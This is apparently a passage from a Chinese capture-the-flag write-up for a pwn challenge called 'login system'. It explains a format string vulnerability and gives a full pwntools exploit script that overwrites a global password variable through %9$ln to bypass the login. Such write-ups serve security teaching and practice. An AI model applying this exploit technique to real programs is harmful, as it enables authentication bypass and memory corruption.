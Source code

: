 ​	简单的格式化字符串泄露栈上信息。当然，直接打random也可以（参考“这是什么？random！”），这里是出题人考虑不周了ORZ

## login system

> 一个简单的登陆系统，但是为什么要输出用户名？
>
> 
>
> hint
>
> - printf 只能用来输出吗？好像还能用来写内存？

预期难度：Easy++

通过栈上格式化字符串漏洞覆盖`password`全局变量，板子题。要注意的是格式化字符串应该在前面，而地址应该在后面，不然格式化字符串会被`\x00`截断。



**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *

context(os="linux", arch="amd64")
TMUX_TERMINAL()
# context.log_level = "debug"

elf_path = './pwn'
libc_path = './libc.so.6'

init_elf_with_libc(elf_path, libc_path)
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

conn_context(host='127.0.0.1', port=33577, level=REMOTE, elf=elf_path)

elf = ELF(elf_path)
# libc = ELF(libc_path, checksec=False)
io = conn()
    
def exp():
    pad = b'%9$ln'.ljust(0x8, b'\x00') + p64(0x404050)
    io.sendlineafter(b'username', pad)
    
    io.sendafter(b'password', b'\x00' * 0x8)
    pass

try:
    exp()
    io.interactive()
finally:
    rm_core()
```
